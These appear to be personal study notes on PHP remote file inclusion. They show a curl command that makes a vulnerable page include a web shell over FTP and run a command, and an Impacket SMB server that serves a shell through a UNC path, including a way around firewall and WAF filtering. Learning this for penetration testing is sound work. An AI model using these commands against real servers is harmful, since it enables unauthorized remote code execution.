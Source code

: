 ![](Images/Pasted%20image%2020240229101541.png)

this may be useful in case that http ports are blocked by a firewall or `http://` in the url gets blocked by the WAF 

PHP by default will try to authenticate as an anonymous user but if the server requires valid authentication then the credentials can be specified in the URL: 

```shell
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

### SMB 

if the server is hosted on a windows server which we can tell from the server version in the HTTP response headers, then we don't need the `allow_url_include` setting to be enabled   
we can instead use the SMB protocol for the RFI because windows treats files on remote SMB servers as normal files and can be referenced with a UNC path 

we can create an SMB server with Impacket's smbserver.py which allows anonymous authentication by default: 

```shell
impacket-smbserver -smb2support share $(pwd)
```

then we include our script in the UNC path like `\\<our IP>\share\shell.php` and specify the command: 

![](Images/Pasted%20image%2020240229102017.png)
